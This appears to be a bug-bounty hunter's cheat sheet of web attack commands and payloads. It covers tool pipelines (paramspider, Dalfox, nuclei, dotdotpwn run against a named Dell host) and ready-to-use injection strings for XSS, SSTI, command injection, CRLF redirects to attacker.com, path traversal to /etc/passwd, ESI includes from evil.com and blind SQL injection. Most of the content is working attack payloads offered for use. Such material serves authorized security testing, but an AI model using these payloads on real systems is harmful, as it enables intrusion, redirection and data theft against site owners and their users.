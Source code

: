 ```yaml
---
tags:
  - web_hunting
---
```

### Automation

```bash
# Paramspider | gau | kxss
python3 ParamSpider/paramspider.py -d target | kxss 
cat subdomains.txt | gau | grep "?" | kxss

# parameter brute forcing 
Arjun -u host.com -w Wordlists/Param-Miner.txt

# Dalfox tool for scanning
Dalfox url host.com?parameters=xss

# Nuclei to fuzz for vulns
nuclei -l parameters.txt -t nuclei_templates/ -et nuclei_templates/waf -et nuclei_templates/others

# DotDotPwn --> <https://github.com/wireghoul/dotdotpwn>  --> for Directory Traversal automation
dotdotpwn -m http-url -u "<https://attachrite.dell.com/en/images/TRAVERSAL>" -f "/???/??ss??" -k "root" -d 20 -b -e "%00.png"
dotdotpwn -m http-url -u "<https://attachrite.dell.com/en/images/TRAVERSAL>" -f "etc/passwd" -k "root" -d 20 -b
```

### Manual Testing

- **XSS** → [**XSS**](https://www.notion.so/XSS-d134ad33750041348b702bd15264e165?pvs=21) →
    
    ```python
    <img src=x onerror=alert("XSS_By_h0tak88r")> 
    <00 foo="<a%20href="javascript:alert('XSS-Bypass')">XSS-CLick</00>--%20/ 
    jaVasCript:/*-/*`/*\\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\\x3csVg/<sVg/oNloAd=alert()//>\\x3e
    ```
    
- **Open Redirect** → **SSRF**
    
    ```python
    www.whitelisted.com
    www.whitelisted.com.evil.com
    <https://google.com>
    //google.com
    javascript:alert(1)
    <https://evil.com>
    <https://hackerone.com/reports/59372> -> Homograph Attack
    ```
    
- **CSTI** → `{{7*7}}[7*7]`→ `{{3*3}}` → `{{constructor.constructor('alert(document.cookie)')()}}`
    
- **SSTI** → `{{7*7}}${7*7}<%= 7*7 %>${{7*7}}#{7*7}${{<%[%'"}}%\\` → RCE
    
- **Command Injection →**
    
    ```python
    1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
    /*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/
    ```
    
- **CRLF →**
    
    ```jsx
    %0d%0aLocation:%20http://attacker.com
    
    %3f%0d%0aLocation:%0d%0aContent-Type:text/html%0d%0aX-XSS-Protection%3a0%0d%0a%0d%0a%3Cscript%3Ealert%28document.domain%29%3C/script%3E
    
    %3f%0D%0ALocation://x:1%0D%0AContent-Type:text/html%0D%0AX-XSS-Protection%3a0%0D%0A%0D%0A%3Cscript%3Ealert(document.domain)%3C/script%3E
    
    %0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2025%0d%0a%0d%0a%3Cscript%3Ealert(1)%3C/script%3E
    ```
    
- **Dangled Markup [ HTML Injection ] →** `<br>lol<b><h1>THIS IS AND INJECTED TITLE </h1>`
    
- **Local File Inclusion →**
    
    ```jsx
    /etc/passwd
    ../../../../../../etc/hosts
    ..\\..\\..\\..\\..\\..\\etc/hosts
    /etc/hostname
    ../../../../../../etc/hosts
    C:/windows/system32/drivers/etc/hosts
    ../../../../../../windows/system32/drivers/etc/hosts
    ..\\..\\..\\..\\..\\..\\windows/system32/drivers/etc/hosts
    <http://asdasdasdasd.burpcollab.com/mal.php>
    \\\\asdasdasdasd.burpcollab.com/mal.php
    ```
    
- **ReDOS →**
    
    ```python
    (\\\\w*)+$
    ([a-zA-Z]+)*$
    ((a+)+)+$
    ```
    
- **Server Side Inclusion/Edge Side Inclusion**
    
    ```python
    <!--#echo var="DATE_LOCAL" --><!--#exec cmd="ls" --><esi:include src=http://evil.com/>x=<esi:assign name="var1" value="'cript'"/><s<esi:vars name="$(var1)"/>>alert(/Chrome%20XSS%20filter%20bypass/);</s<esi:vars name="$(var1)"/>>
    ```
    
- **XSLT Server Side Injection**
    
    ```python
    <xsl:value-of select="system-property('xsl:version')" /><esi:include src="<http://10.10.10.10/data/news.xml>" stylesheet="<http://10.10.10.10//news_template.xsl>"></esi:include>
    ```
    
-  **Request smuggling** -> [ATO via request smuggling](https://gist.github.com/h0tak88r/8e6f8ff1f1ec511c57ff2063595f49fb#file-request-smuggling-to-ato)
- SQL Injection
```python
Bug : Blind SQL Injection Tips : X-Forwarded-For: 0'XOR(if(now()=sysdate(),sleep(10),0))XOR'Z
```


